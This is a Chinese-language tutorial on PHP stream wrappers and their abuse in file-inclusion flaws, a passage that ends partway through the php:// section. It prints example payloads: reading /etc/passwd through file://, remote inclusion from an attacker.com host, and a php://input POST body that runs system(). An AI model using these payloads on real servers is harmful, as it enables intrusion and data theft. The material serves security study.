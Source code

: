   - [3.2 防御措施](#32-防御措施)
- [4. 特殊场景：exit死亡绕过技巧](#4-特殊场景exit死亡绕过技巧)
  - [4.1 base64编码绕过](#41-base64编码绕过)
  - [4.2 ROT13编码绕过](#42-rot13编码绕过)
  - [4.3 .htaccess预包含利用](#43-htaccess预包含利用)
  - [4.4 过滤器组合绕过](#44-过滤器组合绕过)
- [5. 参考文章链接](#5-参考文章链接)


## 1. 定义与核心概念
PHP伪协议（PHP Wrappers）是PHP内置的特殊协议/方案，允许通过统一的URL结构或数据流方式访问不同类型的资源（本地文件、远程数据、输入输出流等）。其核心作用是通过特定前缀（如`file://`、`php://`）让PHP以不同方式处理数据，广泛应用于文件操作、流处理等场景。

伪协议的执行依赖PHP配置参数：
- `allow_url_fopen`：控制是否允许打开URL文件（On/Off）；
- `allow_url_include`：控制是否允许引用URL文件（On/Off）。  
不同协议对这两个参数的依赖不同（具体见各协议说明）。


## 2. 常见PHP伪协议详解
### 2.1 file:// 协议
- **基本格式**：`file://[hostname]/path/to/file`  
  - `[hostname]`：可选，本地文件通常省略或为`localhost`；远程文件需指定主机名。  
  - `/path/to/file`：文件绝对路径（如`/C:/test.txt`）或相对路径。
- **工作原理**：直接与操作系统交互，读取本地文件系统资源，不通过网络协议。
- **用法示例**：  
  - 访问本地文件：`file:///C:/Users/test.txt`（注意使用正斜杠）。  
  - 文件包含漏洞利用：`?file=file:///etc/passwd`（读取服务器敏感文件）。  
  - 结合目录穿越：`?file=file://../../flag.txt`（通过`../`跳转路径）。
- **配置依赖**：不受`allow_url_fopen`和`allow_url_include`影响，双Off时仍可使用。
- **安全风险**：未过滤用户输入时，可能导致本地文件泄露或目录遍历攻击。


### 2.2 http:// 与 https:// 协议
- **作用**：通过HTTP/HTTPS协议访问远程资源，支持读取远程服务器文件或脚本。
- **用法示例**：`?file=http://attacker.com/malicious.php`（远程文件包含攻击）。
- **配置依赖**：需`allow_url_fopen=On`和`allow_url_include=On`才能执行远程脚本。
- **安全风险**：远程文件包含（RFI）漏洞，攻击者可执行恶意脚本。


### 2.3 ftp:// 协议
- **作用**：通过FTP协议与远程服务器交互，支持读取或上传文件。
- **用法示例**：`ftp://ftp.example.com/file.txt`（访问FTP服务器文件）。
- **配置依赖**：需`allow_url_fopen=On`才能访问。


### 2.4 php:// 协议
PHP核心伪协议，用于访问输入/输出流、过滤器、内存文件等，细分如下：

#### 2.4.1 输入流：php://input、php://stdin
- **php://input**  
  - 作用：读取HTTP请求体原始数据（未经PHP自动解析，如JSON、XML），只读流。  
  - 特点：仅支持POST、PUT等带请求体的方法；`enctype="multipart/form-data"`时无效；数据只能读一次。  
  - 用法示例：文件包含中执行代码  
    ```
    URL: ?file=php://input  
    POST Body: <?php system("ls");?> （需allow_url_include=On）
    ```
- **php://stdin**  
  - 作用：读取标准输入流（命令行模式下用户输入），Web环境中可通过特殊手段绕过常规输入。  
